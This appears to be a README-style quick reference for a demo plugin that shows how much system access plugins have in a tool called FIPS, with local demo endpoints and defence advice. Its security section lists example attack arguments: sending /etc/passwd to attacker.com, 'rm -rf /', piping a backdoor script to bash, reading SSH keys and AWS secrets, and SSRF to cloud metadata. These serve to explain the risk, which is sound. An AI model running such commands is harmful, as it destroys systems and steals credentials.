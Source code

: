 # System Callout Plugin - Quick Reference

## What It Does
Demonstrates that FIPS plugins have **FULL SYSTEM ACCESS**:
- Execute system commands
- Read/write files
- Access environment variables
- Make HTTP requests

## Demo Endpoints

### Safe Operations (`/demo/safe`)
```bash
curl http://localhost:8888/demo/safe | jq
```
Returns system date, username, and uptime.

### Dangerous Operations (`/demo/dangerous`)
```bash
curl http://localhost:8888/demo/dangerous | jq
```
Demonstrates:
- Reading environment variables (HOME, USER)
- Reading files (Cargo.toml)
- Making HTTP requests (httpbin.org)

### Command Injection Risk (`/demo/injection`)
```bash
curl http://localhost:8888/demo/injection | jq
```
Shows how directory listing could be exploited.

## Running the Demo

### Automated Demo:
```bash
./scripts/demo_system_callout.sh
```

### Manual Steps:

1. **Build the plugin:**
```bash
cd plugins/system_callout
cargo build --release
```

2. **Start FIPS:**
```bash
cargo run -- -c ./nconfig-test/
```

3. **Test endpoints:**
```bash
curl http://localhost:8888/demo/safe
curl http://localhost:8888/demo/dangerous
curl http://localhost:8888/demo/injection
```

## Plugin Functions

| Function | Purpose | Risk Level |
|----------|---------|------------|
| `SystemCommand` | Execute shell commands | 🔴 CRITICAL |
| `GetEnvVar` | Read environment variables | 🔴 CRITICAL |
| `ReadFile` | Read filesystem files | 🔴 CRITICAL |
| `HttpRequest` | Make HTTP requests | 🔴 CRITICAL |

## Security Implications

### What Attackers Can Do:
1. **Data Exfiltration:**
   ```yaml
   args: ["curl", "http://attacker.com", "-d", "@/etc/passwd"]
   ```

2. **System Destruction:**
   ```yaml
   args: ["rm", "-rf", "/"]
   ```

3. **Backdoor Installation:**
   ```yaml
   args: ["curl", "http://attacker.com/backdoor.sh", "|", "bash"]
   ```

4. **Credential Theft:**
   ```yaml
   args: ["~/.ssh/id_rsa"]  # ReadFile
   args: ["AWS_SECRET_ACCESS_KEY"]  # GetEnvVar
   ```

5. **SSRF Attacks:**
   ```yaml
   args: ["http://169.254.169.254/latest/meta-data/"]  # AWS metadata
   ```

### Real-World Attack Chain:
1. Attacker gains access to configuration files
2. Adds malicious plugin with system callout
3. Executes commands to:
   - Read credentials
   - Exfiltrate data
   - Install backdoor
   - Pivot to other systems

## Defense Strategies

### ✅ DO:
- Run FIPS with minimal privileges
- Use containers/sandboxing
- Audit all plugin configurations
- Implement RBAC for configs
- Monitor process execution
- Log all plugin calls

### ❌ DON'T:
- Use in production without security review
- Allow user input in plugin args
- Run as root/admin
- Load untrusted plugins
- Expose to public networks

## Files

- `src/lib.rs` - Plugin implementation
- `SECURITY.md` - Comprehensive security documentation
- `../../nconfig-test/rule-system-callout-demo.nrule.yml` - Demo configuration
- `../../scripts/demo_system_callout.sh` - Automated demo script

## Learn More

- Full security documentation: `SECURITY.md`
- FIPS README security section: `../../README.md`
- OWASP Command Injection: https://owasp.org/www-community/attacks/Command_Injection
- OWASP SSRF: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery
